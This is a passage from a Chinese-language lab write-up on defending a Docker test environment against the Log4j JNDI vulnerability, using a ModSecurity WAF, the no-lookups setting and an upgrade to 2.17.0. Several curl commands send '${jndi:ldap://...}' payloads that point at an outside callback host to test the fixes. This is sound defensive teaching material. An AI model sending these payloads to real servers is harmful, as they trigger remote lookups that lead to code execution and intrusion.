   curl -X POST http://<Target-IP>:8080/ -d "param1=jndi:ldap://chloris.check4safe.top/exploit"
   ```
   检查是否返回 `403 Forbidden`，并查看 ModSecurity 日志：
   ```bash
   tail -f /var/log/apache2/modsec_audit.log
   ```

   这时再curl 一下,会发现了返回想要的指定指令,证明了攻击防御成功!
   - curl log4j服务所在的8080端口返回的内容 `Potential Log4j Exploit Attempt`
   

   - curl WAF服务所在的81端口返回的内容 `Potential Log4j Exploit Attempt`
   

   - curl 无服务所在的8082端口返回的内容显示`Fail to connect`
   


- **目前的网络拓扑图:**
   ```bash
   +-------------------+       +-------------------+       +-------------------+
   |      Client       | ----> |     WAF (Apache   | ----> |   Target Server   |
   |    (curl 请求)    |       |   + ModSecurity)  |       | (Log4j 测试环境) |
   +-------------------+       +-------------------+       +-------------------+
         |                           |                           |
         | 1. 发送请求到 81        | 2. iptables 重定向到 23509    | 3. 处理请求
         | ------------------------> | ------------------------> |
         |                           |                           |
         |                           | 4. 拦截恶意请求            |
         |                           | (返回 403 Forbidden)      |
         | <------------------------ |                           |
         |                           |                           |
         |                           | 5. 记录日志                |
         |                           | (modsec_audit.log)        |
   ```

   ```bash
   +-------------------+       +-------------------+       +-------------------+
   |      Client       | ----> |     WAF (Apache   | ----> |   Target Server   |
   |    (curl 请求)    |       |   + ModSecurity)  |       | (Log4j 测试环境) |
   +-------------------+       +-------------------+       +-------------------+
         |                                                     |
         |                      1. 发送请求到 23509           
         | ---------------------------------------------------> |
         |                            2. iptables 重定向到 81
                                       <------------------------ 
                                       3. 处理请求
         |                           |
         |                           | 4. 拦截恶意请求              |
         |                           | (返回 403 Forbidden)        |
         | <------------------------ |                             |
         |                           |                             |
         |                           | 5. 记录日志                  |
         |                           | (modsec_audit.log)          |
   ```

---

##### [14] 最终总结

1. **核心问题**
- iptables 规则可能被 Docker 干扰，或者流量未经过 `PREROUTING` 链。
- 需要确保流量经过 WAF，而不是直接访问 Target Server。

2. **解决步骤**
   - **添加 OUTPUT 链规则**：确保本机流量也被重定向。
   - **排除 Docker 干扰**：暂时停止 Docker 服务，测试规则是否生效。
   - **检查 Apache 配置**：确保 Apache 监听 `81` 端口并正确转发请求。

3. **最终效果**
- 所有到达 `8080` 端口的流量（无论是外部还是本机）都会被重定向到 `81` 端口。
- WAF 检测请求后，合法请求会被转发到 Target Server，恶意请求会被拦截。

---

##### [15] 恢复默认配置,便于进行后续实验
1. **删除 iptables 重定向规则**
   运行以下命令，查看当前的 `PREROUTING` 和 `OUTPUT` 链规则：
   ```bash
   sudo iptables -t nat -L -n -v
   ```

2. **删除重定向规则**
   删除 `PREROUTING` 链中的重定向规则：
   ```bash
   sudo iptables -t nat -D PREROUTING -p tcp --dport 8080 -j REDIRECT --to-port 81
   ```

   之前还添加了 `OUTPUT` 链规则，也需要删除：
   ```bash
   sudo iptables -t nat -D OUTPUT -p tcp --dport 8080 -j REDIRECT --to-port 81
   ```
   

3. **保存 iptables 规则**
   确保删除规则后，保存当前配置：
   ```bash
   sudo iptables-save | sudo tee /etc/iptables/rules.v4
   ```
   

4. **关闭 Apache 反向代理**
   打开 Apache 的虚拟主机配置文件：
   ```bash
   sudo vim /etc/apache2/sites-available/000-default.conf
   ```

   删除或注释掉反向代理配置：
   ```bash
   # <VirtualHost *:81>
   #     ProxyPreserveHost On
   #     ProxyPass / http://127.0.0.1:8080/
   #     ProxyPassReverse / http://127.0.0.1:8080/
   # </VirtualHost>
   ```

5. **禁用相关模块**
   禁用 `proxy` 和 `proxy_http` 模块：
   ```bash
   sudo a2dismod proxy
   sudo a2dismod proxy_http
   ```

   重启 Apache 以使更改生效：
   ```bash
   sudo systemctl restart apache2
   ```

6. **恢复 Target Server 配置**
   之前修改了 Target Server 的绑定地址（例如绑定到 `127.0.0.1`），需要恢复其监听外部地址（如 `0.0.0.0`）。
   **修改 Target Server 配置文件**
   - 打开 Target Server 的配置文件（如 `application.properties` 或启动命令）。
   - 将绑定地址改为 `0.0.0.0`：
      ```bash
      java -jar target-app.jar --server.address=0.0.0.0 --server.port=8080
      ```

7. **验证恢复结果**
   确保重定向规则已被删除：
   ```bash
   sudo iptables -t nat -L -n -v
   ```
   确保 Apache 不再监听 `81` 端口：
      ```bash
      sudo netstat -tuln | grep 81
      ```
   确保 Apache 不再转发请求到 `8080` 端口。

8. **测试 Target Server**
- 从客户端访问 Target Server：
   ```bash
   curl http://<Target-IP>:8080/
   ```
- 确保 Target Server 正常响应。



---

##### [16] 第一种方法总结

成功搭建并配置了 ModSecurity WAF，能够有效拦截 Log4j 漏洞攻击。实验过程中，学习了以下内容：
1. ModSecurity 的安装与配置。
2. OWASP CRS 的使用。
3. 针对 Log4j 漏洞的自定义规则配置。
4. 通过反向代理测试 WAF 的拦截效果。
5. 解决实验过程中遇到的常见问题。

实验结果表明，WAF 能够有效防御 Log4j 漏洞攻击，但需要定期更新规则集和监控日志，以确保其持续有效。

---


不影响ping别的ip地址




---

#### 第二种方法: 禁用 lookup 服务

##### 1. 构建 Docker 镜像

(1) **编写 Dockerfile**：
   - 在 `Dockerfile` 中定义了基于 `vulfocus/log4j2-rce-2021-12-09:1` 的镜像。
   - 设置环境变量 `LOG4J_FORMAT_MSG_NO_LOOKUPS=true` 来防止 Log4j 漏洞。
   - 暴露容器的内部端口为 `8080`。
   - 设置容器启动命令为运行 `/demo/demo.jar`。
      ```dockerfile
      # 基于现有的镜像
      FROM vulfocus/log4j2-rce-2021-12-09:1
      # 设置环境变量（根据需要添加或修改）
      ENV LOG4J_FORMAT_MSG_NO_LOOKUPS=true
      # 固定容器的内部端口为 8080（无需在 Dockerfile 中指定端口映射，这在运行时完成）
      EXPOSE 8080
      # 设置容器的启动命令（如果需要修改默认启动命令）
      CMD ["java", "-jar", "/demo/demo.jar"]
      ```
      

(2) **构建 Docker 镜像：**
   - 使用 `docker build` 命令构建镜像，并将其命名为 `my-log4j2-rce:1`。
      ```bash
      docker build -t my-log4j2-rce:1 .
      ```
      

##### 2. 运行 Docker 容器
   - 使用 `docker run` 命令启动 `my_log4j2_container` 容器。
   - 将容器的 `8080` 端口映射到主机的 `8080` 端口。
   - 后台运行容器 (`-d` 参数)。
   ```bash
   docker run -d --name my_log4j2_container -p 8080:8080 my-log4j2-rce:1
   ```

##### 3. 验证容器运行状态
   - 使用 `docker ps` 命令查看正在运行的容器，确认 `my_log4j2_container` 已成功启动并运行正常。
   


##### 4. 访问应用
   - 打开浏览器或使用 `curl` 命令访问 `http://localhost:8080/hello`，验证应用是否可以正常访问。
      ```bash
      curl http://localhost:8080/hello
      ```
      
      

##### 5. 测试 Log4j 漏洞防护效果
   - 使用 `curl` 发送包含 `${jndi:ldap://chloris.check4safe.top}` 的请求，测试 Log4j 漏洞防护效果。
      ```bash
      curl -G --data-urlencode "payload=${jndi:ldap://chloris.check4safe.top}" http://localhost:8080/hello -vv
      ```
      - 如果配置正确，请求应该被拦截，返回 `403 Forbidden` 和我之前配置的错误信息。
      

- 完成 !


---


### 六. 漏洞修复

#### Log4j 漏洞修复详细步骤

##### 1. 环境准备

**[1] 下载并安装 Java 8**
Log4j 2.17.0 需要 Java 8 或更高版本。如果目标环境没有 Java 8，需要先安装。
访问 [Oracle Java 下载页面](https://www.oracle.com/java/technologies/javase/javase-jdk8-downloads.html) 或使用 OpenJDK：
```bash
sudo apt update
sudo apt install openjdk-8-jdk
```

**[2] 解压目标 JAR 文件**

假设目标文件是 `demo.jar`，需要解压它并替换其中的 Log4j 依赖。

1. **创建解压目录**  
   ```bash
   mkdir demo-extracted
   cd demo-extracted
   ```

2. **解压 JAR 文件**  
   ```bash
   unzip /path/to/demo.jar
   ```

- 解压后，目录结构通常包含 `BOOT-INF/lib/`，其中存放了依赖的 JAR 文件。


##### 2. 删除旧版本的 Log4j

**[1] 查找并删除旧版本 Log4j**  
   在解压目录中，找到并删除旧版本的 Log4j 文件（如 `log4j-core-2.14.0.jar` 和 `log4j-api-2.14.0.jar`）：
   ```bash
   rm -rf BOOT-INF/lib/log4j-core-2.14.0.jar
   rm -rf BOOT-INF/lib/log4j-api-2.14.0.jar
   ```

**[2] 下载并替换新版本的 Log4j**

   (1) 从 Maven 中央仓库下载安全版本的 Log4j：
   ```bash
   wget https://repo1.maven.org/maven2/org/apache/logging/log4j/log4j-core/2.17.0/log4j-core-2.17.0.jar
   wget https://repo1.maven.org/maven2/org/apache/logging/log4j/log4j-api/2.17.0/log4j-api-2.17.0.jar
   ```

   (2) 将下载的 JAR 文件移动到 `BOOT-INF/lib/` 目录：
   ```bash
   mv log4j-core-2.17.0.jar BOOT-INF/lib/
   mv log4j-api-2.17.0.jar BOOT-INF/lib/
   ```

##### 3. 重新打包 JAR 文件

**[1] 重新打包**  
   在解压目录中，重新打包为 `demo-new.jar`：
   ```bash
   jar -cf demo-new.jar .
   ```

**[2] 验证打包结果**  
   确保新版本的 Log4j 已正确打包：
   ```bash
   jar tf demo-new.jar | grep log4j
   ```
   输出显示：
   ```
   BOOT-INF/lib/log4j-core-2.17.0.jar
   BOOT-INF/lib/log4j-api-2.17.0.jar
   ```

##### 4. 将修复后的 JAR 文件部署到容器

   (1) 将修复后的 `demo-new.jar` 复制到目标容器中：
   ```bash
   docker cp demo-new.jar <容器ID>:/path/to/demo.jar
   ```

   (2) 重启容器以应用更改：
   ```bash
   docker restart <容器ID>
   ```

##### 5. 验证修复结果

**[1] 发送恶意请求**
在另一台虚拟机（IP 为 `192.168.56.101`）上，发送包含恶意 JNDI 字符串的请求：
```bash
curl -X GET "http://192.168.56.103:8080/hello?payload=\${jndi:ldap://chloris.check4safe.top/exp}"
```

**[2] 使用 Wireshark 监测**
   (1) 在攻击机上启动 Wireshark，选择正确的网络接口（如 `eth0`）。
   (2) 在 Wireshark 中使用过滤器：``ldap``

**[3] 分析抓包结果**  
   - 如果修复成功，Wireshark 不会捕获到目标服务器向 `ldap://chloris.check4safe.topcom/exp` 发起的请求。
   - 如果修复失败，Wireshark 会显示目标服务器尝试连接恶意 LDAP 服务器的流量。

##### 6. 总结一下
   到此为止 , 完成了 Log4j 漏洞的修复：
   (1) 升级 Log4j 到安全版本（2.17.0）。
   (2) 重新打包并部署修复后的 JAR 文件。
   (3) 使用恶意请求和 Wireshark 验证修复结果。

---


## PART4 遇到的问题

### 问题描述

在进行curl命令时 : 
```bash
curl -X GET "http://192.168.56.103:8080/hello?payload=\${jndi:ldap://chloris.check4safe.top/exp}"
```
有如下报错:
```
zsh: unrecognized modifier
```

这个报错是由于 `zsh` shell 对 `${}` 语法有特殊的解释方式，而 `${jndi:ldap://chloris.check4safe.top}` 被 `zsh` 解释为一个变量或特殊语法，导致 `zsh` 无法识别。

在 `zsh` 中，`${}` 是用于变量扩展或特殊字符处理的语法。因此，直接在命令行中使用 `${jndi:...}` 时，`zsh` 会尝试将其解释为一个变量或特殊语法，但由于 `jndi:...` 不是一个有效的变量或语法，所以会报错

### 解决方法

#### 方法 1：使用单引号包裹参数
将 `${jndi:...}` 用单引号包裹起来，防止 `zsh` 解释它：
```bash
curl -G --data-urlencode 'payload=${jndi:ldap://chloris.check4safe.top}' http://192.168.20.6:23509/hello -vv
```

#### 方法 2：使用双引号并转义 `$`
在双引号中，使用反斜杠 `\` 转义 `$`，防止 `zsh` 解释它：
```bash
curl -G --data-urlencode "payload=\${jndi:ldap://chloris.check4safe.top}" http://192.168.20.6:23509/hello -vv
```

#### 方法 3：切换到 `bash` shell
如果不想修改命令，可以临时切换到 `bash` shell，因为 `bash` 对 `${}` 的解释方式与 `zsh` 不同：
```bash
bash
curl -G --data-urlencode "payload=${jndi:ldap://chloris.check4safe.top}" http://192.168.20.6:23509/hello -vv
```